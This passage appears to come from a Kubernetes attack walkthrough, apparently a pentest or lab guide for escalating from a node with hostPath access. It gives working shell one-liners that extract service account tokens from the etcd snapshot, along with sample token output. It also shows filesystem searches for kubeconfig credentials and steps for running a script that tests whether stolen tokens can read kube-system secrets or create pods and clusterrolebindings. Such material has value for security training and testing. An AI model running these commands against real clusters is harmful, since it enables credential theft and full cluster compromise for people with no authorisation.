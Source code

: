 **Extract the tokens from the database and show the service account name**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```

**Same command, but some greps to only return the default token in the kube-system namespace**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```
Output:
```
1/registry/secrets/kube-system/default-token-d82kb | eyJhbGciOiJSUzI1NiIsImtpZCI6IkplRTc0X2ZP[REDACTED]
```


## Look for kubeconfigs in the host filesystem 

By default, nodes don't have `kubectl` installed. If you are lucky though, an administrator tried to make their life (and yours) a little easier by installing `kubectl` and their highly privileged credentials on the node. We're not so lucky on this GKE node 

**Some ideas:**
```bash
find / -name kubeconfig
find / -name .kube
grep -R "current-context" /home/
grep -R "current-context" /root/
```

## Grab all tokens from all pods on the system
You can access any secret mounted within any pod on the node you are on. In a production cluster, even on a worker node, there is usually at least one pod that has a mounted *token* that is bound to a *service account* that is bound to a *clusterrolebinding*, that gives you access to do things like create pods or view secrets in all namespaces. 

Look for tokens that have permissions to get secrets in kube-system. 


**Copy the `can-they.sh` helper script to the pod, download it from github, or manually created it**
```
kubectl cp scripts/can-they.sh hostpath-exec-pod:/
```


**Exec into pod (Don't chroot)** 
```
kubectl exec -it hostpath-exec-pod -- bash
```

**Run `can-they.sh`**
```
./can-they.sh --list
./can-they.sh --list -n kube-system
./can-they.sh --list -n default
./can-they.sh list secrets -n kube-system
./can-they.sh create pods -n kube-system
./can-they.sh create clusterrolebindings
```
